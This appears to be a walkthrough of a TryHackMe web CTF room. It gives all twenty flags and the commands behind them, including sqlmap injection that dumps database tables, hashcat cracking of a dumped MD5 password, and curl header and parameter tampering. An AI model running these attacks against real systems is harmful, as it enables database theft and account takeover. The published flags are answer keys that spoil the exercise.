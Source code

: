 ```yaml
---
Sharpening up your CTF skill with the collection. The second volume is about web-based CTF.
---
```


*Note: All the challenges flag are formatted as THM{flag}, unless stated otherwise*

- Easter 1 *THM{4u70b07_r0ll_0u7}* (ip/robots.txt /decode from hex)
- Easter 2 *THM{f4ll3n_b453}* (decode from base 64 till get DesKel_secret_base then go to path)
- Easter 3 *THM{y0u_c4n'7_533_m3}* (gobuster found /login path/view source code)
- Easter 4 *THM{1nj3c7_l1k3_4_b055}* (first use burpsuite and save the POST request like request.txt or another then 
```
sqlmap -r request.txt --dbs --batch
```
 will give me the name of 4 dbs available which one of these is THM_f0und_m3
 [sqlmap](https://resources.infosecinstitute.com/topic/important-sqlmap-commands/)

> Now let’s dump the tables

```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 --tables
```

> found two tables nothing_inside and user

> Let’s see the structure of the nothing_inside table


```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 -T nothing_inside --columns
```

> found Easter_4 Only 1 field, let’s dump the table:

```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"
```

> [23:14:25] [INFO] adjusting time delay to 2 seconds due to good response times
THM{1nj3c7_l1k3_4_b0
[23:17:42] [ERROR] invalid character detected. retrying..
[23:17:42] [WARNING] increasing time delay to 3 seconds
55}
select Easter_4 from nothing_inside: 'THM{1nj3c7_l1k3_4_b055}'
[23:18:23] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.122.55'                                                        
[*] ending @ 23:18:23 /2022-08-12/

- Easter 5 *THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql} *

> Still using the same SQL injection as for easter 4, let’s dump the user table

```
sqlmap -r request.txt --dbs --batch -D THM_f0und_m3 -T user --columns
```

> found password and username

```
sqlmap -r request.txt --batch -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"
```

```md5
hash-identifier 05f3672ba34409136aa71b8d00070d1b
```
##### hashcat (or john)

```save hash
nano hashctf2
```
```
hashcat -m 0 hashctf2 /usr/share/wordlists/rockyou.txt
```
`05f3672ba34409136aa71b8d00070d1b:cutie`
> then login to http://IP/login with the credentials 

==Deskel:cutie==  give me THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql}

- Easter 6 *THM{l37'5_p4r7y_h4rd}* (curl -s ip -D header.txt / then cat header.txt)
- Easter 7 *THM{w3lc0m3!_4nd_w3lc0m3}* (change cookie value to 1 in inspect mode then refresh page)
- Easter 8 *THM{h3y_r1ch3r_wh3r3_15_my_k1dn3y} * (curl -s --user-agent "Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1" http://IP/ | grep "Easter 8")
- Easter 9 *THM{60nn4_60_f457}* (curl -s http://IP/ready/) or using wget but will download it
- Easter 10 *THM{50rry_dud3} * (curl -s --referer "tryhackme.com" http://IP/free_sub/)
- Easter 11 *THM{366y_b4k3y}* ( curl -s -d "dinner=egg" -X POST http://IP/ | grep menu -B 1 )
- Easter 12 *THM{h1dd3n_j5_f1l3} * (curl -s http://IP/ | grep "\.js" ) then found jquery-9.1.2.js so (curl -s http://IP/jquery-9.1.2)  found a function - copy and go to [jscript](https://playcode.io/typescript/) 
> function ahem()
 {
    str1 = '4561737465722031322069732054484d7b68316464336e5f6a355f66316c337d'
    var hex  = str1.toString();
    var str = '';
    for (var n = 0; n < hex.length; n += 2) {
        str += String.fromCharCode(parseInt(hex.substr(n, 2), 16));
    }
    return str;
 }
document.write(ahem());  

==Easter 12 is THM{h1dd3n_j5_f1l3} ==
- Easter 13 *THM{1_c4n'7_b3l13v3_17}* (press the button)
- Easter 14 *THM{d1r3c7_3mb3d}*
 [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Render_Image('Raw'))
- Easter 15 *THM{ju57_4_64m3} * (#1st curl -d "answer=abcdefghijklmnopqrstuvwxyz" -X POST http://IP/game1/ give me another hash then / curl -d "answer=ABCDEFGHIJKLMNOPQRSTUVWXYZ" -X POST http://IP/game1/  the same hash and with the hints 
> hints: 51 89 77 93 126 14 93 10 
> We now have the numbers associated to each upper (99=A, 100=B, 101=C, … 141=Z) and lower (89=a, 90=b, …, 18=z) 

> decode : GameOver : enter like answ or curl -d "answer=GameOver" -X POST http://IP/game1/

- Easter 16 *THM{73mp3r_7h3_h7ml}* 
(curl -d "button1=button1&button2=button2&button3=button3" -X POST http://IP/game2/ )
`La vulnerabilidad de tipo Parameter Tampering consiste en la manipulación del valor de algún parámetro que se intercambia entre cliente y servidor`
- Easter 17 *THM{j5_j5_k3p_d3c0d3}*
> bin -> dec -> hex -> ascii
[rapidtables](https://www.rapidtables.com/convert/number/hex-to-ascii.html)
==Easter 17: THM{j5_j5_k3p_d3c0d3}==
- Easter 18 *THM{70ny_r0ll_7h3_366}* (curl -s -H "egg: Yes" http://IP/ | grep -i "Easter 18")
>Request header. Format is egg:Yes
- Easter 19 *THM{700_5m4ll_3yy}* (gobuster/ small path /img)
- Easter 20 *THM{17_w45_m3_4ll_4l0n6} * (curl -s -d "username=DesKel&password=heIsDumb" -X POST http://IP/ | grep -A 1 "Easter 20") 
> You need to POST the data instead of GET. Burp suite or curl might help.

[[REmux The Tmux]]
